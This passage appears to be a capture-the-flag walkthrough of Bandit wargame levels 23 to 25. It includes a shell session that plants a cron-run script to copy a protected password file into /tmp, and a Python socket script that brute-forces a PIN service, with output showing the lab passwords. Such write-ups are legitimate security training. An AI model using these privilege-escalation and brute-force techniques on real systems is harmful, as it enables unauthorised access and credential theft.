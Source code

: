 bandit23@melinda:/etc/cron.d$ cd /tmp
bandit23@melinda:/tmp$ vim task.sh
bandit23@melinda:/tmp$ cat tash.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/w3ndige
bandit23@melinda:/tmp$ ls -l tash.sh
-rw-rw-r-- 1 bandit23 bandit23 53 May 12 22:00 tash.sh
bandit23@melinda:/tmp$ chmod 777 tash.sh
bandit23@melinda:/tmp$ cp tash.sh /var/spool/bandit24/
bandit23@melinda:/tmp$ cat w3ndige
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
{% endhighlight %}

<b>24 --> 25</b>
<p>More fun! We have to create a brute forcing script that uses numeral pins from 0 to 10000. I'm gonna use Python but you can use any script you can!</p>
{% highlight python %}
import socket
pin = 0
bandit = 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('localhost', 30002))
client.recv(1024)
while pin in range(0, 10000):
   message = bandit + ' ' + ' ' + str(pin) + '\n'
   print 'Trying: ' + message
   client.sendall(message)
   data = client.recv(1024)
   print data
   pin += 1
{% endhighlight %}
<p>After executing it goes through all combinations, where  pin 5669 is the correct one.</p>
{% highlight bash %}

Trying: ******************************** 5668

Wrong! Please enter the correct pincode. Try again.

Trying: ******************************** 5669

Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG


Trying: ******************************** 5670

Exiting.

Trying: ******************************** 5671

Traceback (most recent call last):
File "brute.py", line 11, in &amp;lt;module&amp;gt;
data = client.recv(1024)
socket.error: [Errno 104] Connection reset by peer
bandit24@melinda:/tmp$
{% endhighlight %}
